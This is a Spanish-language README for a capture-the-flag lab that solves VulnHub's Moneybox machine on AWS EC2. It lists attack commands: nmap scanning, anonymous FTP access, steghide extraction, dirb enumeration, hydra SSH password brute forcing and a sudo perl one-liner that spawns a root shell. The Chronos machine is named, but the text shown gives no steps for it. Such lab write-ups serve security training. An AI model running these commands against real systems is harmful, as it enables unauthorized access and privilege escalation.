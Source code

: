 # Introducción
En este proyecto se efectúa la solución a 02 máquinas CTF(Capture The Flag) del repositorio de Vulnhub: [Moneybox](https://www.vulnhub.com/entry/moneybox-1,653/) y [Chronos](https://www.vulnhub.com/entry/chronos-1,735/), montadas en un entorno cloud empleando el servicio EC2 de AWS.

# Infraestructura
Tanto Moneybox como Chronos se montaron en diferentes instancias EC2, adicionalmente la máquina atacante con [Kali](https://www.kali.org/get-kali/#kali-platforms). Las 03 instancias se encuentran desplegadas en la misma VPC y se realiza el networking correspondiente para que se encuentren conectadas entre sí. Sin embargo la única máquina accesible desde fuera a través de una public IP es la máquina atacante.

**`Infraestructura inicial`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=11c5o4umxrLiI0OOnam64kf3EjaVgHJ2X"></img></p>

**`Infraestructura securizada con herramientas nativas AWS`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1pADHae9b56royVwhx0JmwbbxH67-VIH5"></img></a>

# CTF-Moneybox
+ Herramientas
**`Scanning`**
```bash
$ nmap -sV <ip-target>
```
**`FTP abuse`**
```bash
$ ftp -U anonymous:anonymous <ip-target>
$ ftp > get
```
**`Steganography & HTTP abuse`**
```bash
$ xxd -l <specific-file>
$ curl <ip-target>:80
$ dirb <ip-target>:80
$ steghide extract -sf <specific-file>
```
**`SSH Brute Force`**
```bash
$ hydra -l <any-user> -P <dictionary.txt> -f <ip-target> ssh
```
**`Privilege escalation by PERL`**
```bash
$ sudo perl -e 'exec "/bin/sh";'
```
